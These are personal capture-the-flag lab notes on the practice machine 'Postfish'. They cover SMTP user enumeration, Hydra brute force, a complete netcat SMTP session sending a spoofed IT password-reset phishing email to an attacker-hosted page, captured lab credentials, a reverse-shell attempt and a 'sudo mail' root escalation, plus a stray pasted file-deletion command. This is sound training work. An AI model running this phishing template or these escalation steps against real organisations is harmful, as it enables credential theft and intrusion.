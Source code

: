 # Postfish Notes

## Data 

IP: 192.168.173.137
OS: Ubuntu Focal 20.04
Arch:
Hostname:
DNS:
Domain:  postfish.off/
Machine Purpose: 
Services:
Service Languages:
Users:
Email and Username Formatting:
Credentials:

## Objectivespostfish

`\#\# Target Map ![](Postfish-map.excalidraw.md)`

#### Machine Connects to list and reason:

[[]] - Reason X

## Data Collected

#### Credentials
```
```

#### HUMINT


#### Solution Inventory Map


#### Todo 


#### Timeline of tasks complete
      

redirect http://postfish.off/

What
```html
<p>Powered by <a href="[https://www.w3schools.com/w3css/default.asp](https://www.w3schools.com/w3css/default.asp)" target="_blank">w3.css</a></p>
```

team.html - Users
```
Claire Madison
Mike Ross
Brian Moore
Sarah Lorem
```


smtpuserenumwithpentestmonkey.png


checkerror.png

requiresphishing.png

Will be twinned with [[Attended-Helped-Through]], and other phishing boxes for phishing-for-2-weeks-24-7 banaza

Hydra to testing top 2000 on all four valid emails
2000krockyouonvalidemailsfailed.png

Got the write for this box as I have never done any phishing so I am bound not know a large amount of the considerations and methodology. At an initial glance of the Walkthrough - department emails 

departments.txt 
```
hr@postfish.off
it@postfish.off
sales@postfish.off
legal@postfish.off
```

```bash
smtp-user-enum -M RCPT -U departments.txt -t postfish.off
```

departmentemailsexist.png

user:password combos before brute force
```
hr:hr, it:it, sales:sales, and legal:legal
```

Read the emails like its a video game and you had read the email to progress...
emailreading.png

Check other services for password reuse - ssh password for sales is not sales

- Phishing
	- Can you impersonate the IT department or organisational authoritative account to get?
		- Passwords or password resets?
			- *Register for this new service - you just need to use you account details to finish the registration process and read Terms and Conditions*
			- *Due to recent an up tick in attempts against your account the IT department requires you to change you password to a great level of complexity...*
		- Intelligence?
			- Information additive to further phishing progress at a later stage - how will it fit or can it be frame to further impersonate an individual?

The Walk Through demonstrates a failed phishing campaign  by setting up a registration page then it progresses to spear-phishing Brian Moore. It then discusses manual approach to discovery of the organisational email formatting conventions. I already discovered those with `smtp-user-enum`

Sending Emails without [[SWAKS]]
```c
// connect
nc $address 25
// HELLO THERE
helo hacker
// response code
MAIL FROM: it@postfish.off 
// response code
RCPT TO: brian.moore@postfish.off // receipiant
// response code
DATA // Send some data !
// response code
Subject: Password Reset

Hey Brian,

Unfortunately we had a problem during our migration and we had to rebuild our database.
Please register at http://192.168.45.178/ and let us know if you encounter any problems.

Regards,
IT
.
// Make sure you use the a single `.` on the final line to close DATA 
// response code
QUIT // terminates sessions
```

Use `nc` not `python3 -m http.server` woops, but tanks to Brian and some URL decoding
thanksBrian.png

```
first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

cyberchefurldecode.png

`brian.moore : EternaLSunshinE`


wearebrian.png

There is no sudo privileges for Brian and there are four other users
nosudofourotherusers.png



Primarily box checks - we as well as we can read everyone else directories! 
boxchecks.png

saleshasmaildir.png

rootdir.pngwehi

routesfirewallsanddns.png

nonexistentandactualusers.png

My CTF instincts are press me for the second phish or great privileged user there is no script logging other in
checkifwemaybephishinganotheruser.png

But there are no crons
nocrons.png


unattendwhat.png

salesmail.png

www-baitwtf.png


disclaimerfile.png

rootsshbadmkay.png


nextlevelsomeday.png


pwnkitandpolkit.png


scriptseemslikeitspartofautomateprocess.png


Making sure to append Linux to the dorking the `man trap`  .. 
https://man7.org/linux/man-pages/man1/trap.1p.html

trapcmdonlinux.png

Running out of time I was on the correct track
```
find / -group filter 2>/dev/null
```

Added the shell because I stepped back after yesterday mind blank I did not want to fumble something so easy
addedshell.png
but I did not return a shell even though though root is running this every minute. Then I *The next time a user receives a message, the disclaimer script should be executed. Let's start a Netcat listener to receive the reverse shell.* 
- Always research the file and service provider. `disclaimer.sh` must have some check to run but no execute!...

pspylikeabrian.png


moreactiononpspy.png

No shell because the script gets reset!!

noshell.png

I god the mistake
violatingthescriptbecauseitsoverwritten.png


tomuchgoof.png


weareFILTER.png

We can use mail without a password and sudo
https://linux.die.net/man/1/mail

[Mail - GTFObin for sudo mail ]
```
sudo mail --exec='!/bin/sh'
```


root.png

The disclaimer reset script:
disclaimerscript.png

Poor Brian stood no chance with this root activity...
themailscripttoemailthepassword.png